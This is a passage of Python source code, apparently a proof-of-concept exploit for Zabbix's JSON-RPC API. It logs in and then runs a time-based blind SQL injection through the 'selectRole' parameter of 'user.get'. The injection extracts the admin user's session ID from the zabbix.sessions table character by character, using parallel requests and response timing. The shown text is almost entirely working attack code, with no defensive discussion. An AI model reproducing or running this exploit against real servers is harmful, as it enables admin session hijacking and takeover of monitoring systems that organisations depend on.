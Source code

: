 ```
            response_json = response.json()
            auth_token = response_json.get("result")
            if auth_token:
                print(f"Login successful! Auth token: {auth_token}")
                return auth_token
            else:
                print(f"Login failed. Response: {response_json}")
        except Exception as e:
            print(f"Error: {str(e)}")
    else:
        print(f"HTTP request failed with status code {response.status_code}")

def send_injection(auth_token, position, char):
    payload = {
        "jsonrpc": "2.0",
        "method": "user.get",
        "params": {
            "output": ["userid", "username"],
            "selectRole": [
                "roleid",
                (
                    f"name AND (SELECT * FROM (SELECT(SLEEP({TRUE_TIME}-"
                    f"(IF(ORD(MID((SELECT sessionid FROM zabbix.sessions WHERE userid=1 and status=0 "
                    f"LIMIT {ROW},1), {position}, 1))={ord(char)}, 0, {TRUE_TIME})))))BEEF)"
                )
            ],
            "editable": 1,
        },
        "auth": f"{auth_token}",
        "id": 1
    }
    before_query = datetime.now().timestamp()
    response = requests.post(URL, json=payload)
    after_query = datetime.now().timestamp()
    response_time = after_query - before_query
    return char, response_time

def test_characters_parallel(auth_token, position):
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {
            executor.submit(send_injection, auth_token, position, char): char
            for char in string.printable
        }
        for future in futures:
            char, response_time = future.result()
            if TRUE_TIME - 0.5 < response_time < TRUE_TIME + 0.5:
                return char
    return None

def print_progress(extracted_value):
    sys.stdout.write(f"\rExtracting admin session: {extracted_value}")
    sys.stdout.flush()

def extract_admin_session_parallel(auth_token):
    extracted_value = ""
    max_length = 32
    for position in range(1, max_length + 1):
        char = test_characters_parallel(auth_token, position)
        if char:
            extracted_value += char
            print_progress(extracted_value)
        else:
```